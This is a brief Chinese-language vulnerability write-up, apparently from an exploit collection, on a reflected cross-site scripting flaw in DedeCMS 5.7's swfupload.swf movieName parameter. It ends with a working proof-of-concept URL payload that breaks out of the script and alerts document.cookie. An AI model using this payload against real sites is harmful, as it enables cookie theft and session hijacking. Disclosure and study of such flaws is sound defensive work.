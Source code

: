 # Dedecms swf文件反射型xss

## 漏洞简介

DedeCMS 5.7 /images/swfupload/swfupload.swf文件movieName参数没有合适过滤，导致跨站脚本漏洞。

### 漏洞影响版本

DedeCMS 5.7

## 文件位置

漏洞文件为：http://127.0.0.1/images/swfupload/swfupload.swf

### 漏洞POC

```
http://127.0.0.1/images/swfupload/swfupload.swf?movieName="])}catch(e){if(!window.x){window.x=1;alert(document.cookie)}}//
```

